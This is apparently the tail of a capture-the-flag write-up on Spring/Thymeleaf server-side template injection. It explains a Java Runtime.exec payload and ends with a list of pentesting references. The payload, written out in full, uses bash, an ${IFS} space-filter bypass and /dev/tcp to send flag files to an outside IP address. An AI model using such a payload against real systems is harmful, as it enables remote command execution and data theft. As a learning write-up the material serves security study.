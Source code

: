 - .getRuntime():
This calls the static method getRuntime() of the Runtime class, which returns the current runtime object. This object allows the application to interface with the environment in which it is running.

- .exec("bash -c cat${IFS}/flag*>&/dev/tcp/35.184.189.108/1337<&1"):
This method executes the specified string command in a separate process.

## References
>https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability
>https://blog.spoock.com/2018/11/25/getshell-bypass-exec/
>https://exploit-notes.hdks.org/exploit/web/framework/java/spring-pentesting/
>https://portswigger.net/research/server-side-template-injection
>https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
>https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
